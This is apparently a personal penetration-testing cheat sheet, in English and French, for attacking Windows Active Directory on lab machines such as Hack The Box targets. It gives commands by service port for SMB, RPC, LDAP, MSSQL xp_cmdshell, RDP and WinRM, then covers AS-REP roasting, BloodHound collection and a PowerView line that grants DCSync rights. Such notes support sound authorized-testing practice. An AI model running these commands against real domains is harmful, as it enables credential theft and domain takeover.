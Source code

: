 #### AD GROUP EXPLOIT
- [[AD_GROUP_EXPLOIT]]

#### RESSOURCE
- cool repos [winpwn](https://github.com/S3cur3Th1sSh1t/WinPwn) automations
- [Payload all the thing AD](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-bloodhound)
- [OCD mindmap for AD audit (scroll down) ](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg)
- [WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.](https://wadcoms.github.io/)
- [Attack Active directory from zero to her (very cool stuff)](https://zer1t0.gitlab.io/posts/attacking_ad)
- [CVE DATABASE](https://cvepremium.circl.lu/)
#### Exemple of standardised windows port
- 139 (smb)
	-  Try eternal blue 
		- nmap --script smb-vuln IP-RANGE
	- verify SMB protocol
		- crackmapexec smb IP-RANGE
	- enum smb
		- smbclient //IP/PATH -c 'recurse;ls'
- 135 (RPC)
	- impacket-rpcdump IP
	- impacket-lookupsid "user:pwd"@IP # if you have valid cred for this one. 

- 443 (smb)
- 445 (smb)
	- crackmapexec smb  -u username.txt -p password.txt --shares 10.10.10.149 # donne la capacitée de voir les droit d'acces au share. 
- 389 (LDAP)
	-  Reco
		- nmap -n -sV --script "ldap* and not brute" -p "IP" # liste les informations en lien avec le LDAP
	- Connexions
		- ldapsearch -x -H LDAP://IP -D 'LDAP-SERVER-NAME\ldap' -w 'PASSWORD' -b "CN=NMAP-LDAP-RESULT,DC=NMAP-LDAP-RESULT"
	- DUMP 
		- ldapdomaindump -u DMAIN\\USERS -p PASSWORD IP --no-json --no-grep # get 
- 1443 (mssql) 
	-  [msdat](https://github.com/quentinhardy/msdat) framwork d'audit du service ms-sql 
	- [ressource](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/) intéréssante sur le hack mssql
	- impacket-mssqlclient
		- enable xp_cmdshell # permet de lancer une comand a partir du mssql
- 3389 (RDP)
	- can try with XfreeRDP on linux  
		- xfreerdp /u:amdin /p:passwd /v:IP
	- Detect if vulnerable to [BLUEKEEP or other stuff](https://github.com/robertdavidgraham/rdpscan)

- 5985 (winRM HTTP) 
	- Detectec with this nuclei yaml: [[detect-winrm-HTTP]]
	- [EvilWinRM](https://github.com/Hackplayers/evil-winrm)
- 5986 (winRM HTTPS)
	- Detectec with this nuclei yaml: [[detect-winrm-HTTPS]]
	- [EvilWinRM](https://github.com/Hackplayers/evil-winrm)

#### command technique 
- ASREPROAST 
	- impacket-GetNPUsers painters.htb/ -dc-ip 192.168.110.55 -usersfile userlist.txt -format hashcat -outputfile o.txt
	- impacket-GetNPUsers DOMAIN/  -usersfile employe_name.txt -dc-ip IP
	- impacket-GetNPUsers htb.local/ -usersfile userlist.txt -dc-ip 10.10.10.161 -no-pass
  ### bloodhound export 
	- bloodhound-python -d domain_name.TLD   -u USERS -p PASSWORD  -gc computer_name.domain.TLD -c All -ns COMPUTER_IP # TLD stand for top level domain
### dcsync right 
-  Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity useracct1 -Rights DCSync